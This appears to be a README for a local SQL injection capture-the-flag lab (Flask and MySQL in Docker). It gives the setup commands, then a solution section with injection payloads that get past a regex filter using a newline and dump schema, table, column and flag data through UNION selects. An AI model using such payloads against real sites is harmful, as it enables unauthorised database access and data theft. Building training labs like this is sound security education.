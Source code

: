 ## Build the image

go to the mysql directory and run:

```docker build -t sql_injection_challenge_mysql .```

go to the flask directory and run:

```docker build -t sql_injection_challenge_flask .```

## run the containers:

create the docker network connecting both containers:

```docker network create sql_injection```

first, run the mysql container:

```docker run --rm -it -e MYSQL_ROOT_PASSWORD=shoshohN3Eishah8aegae4phiomoot7u -e MYSQL_DATABASE=flask -p 127.0.0.1:3306:3306 --network sql_injection --name sql_injection_challenge_mysql sql_injection_challenge_mysql```

second, run the flask container:

```docker run --rm -it -p 127.0.0.1:8080:8080 --network sql_injection --name sql_injection_challenge_flask sql_injection_challenge_flask```

TODO: use docker-compose instead of two single docker containers (with the flask container depending on the mysql container to be run first, running in the same docker network, so they can find each other with their names).

## exploit sqli

visit http://127.0.0.1:8080 in your browser and try to exploit the sqli with the "search functionality". If you use a brower, check the sites source after the response is received.

to "troll" the CTF players, there is a detection of possible injection attempts with a regex, which e.g. detects a "\'" and gives the players to a random choice of 10 "troll" sites (see the "static" folder).

one possibility to get the flag (as of now, you have to break the regex by using a "\n"):

possible injection to display all products:

 ```\n%' or 'a'='a'; #```

how to get database names:

```\n%' or 'a'='a' union select group_concat(schema_name) from information_schema.schemata; #```

how to get table names:

```\n%' or 'a'='a' union select group_concat(table_name) from information_schema.tables where table_schema='flask'; #```

get column names of table 'flag':

```\n%' or 'a'='a' union select group_concat(column_name) from information_schema.columns where table_name='flag'; #```

get flag itself:

```\n%' or 'a'='a' union select group_concat(flag) from flask.flag; #```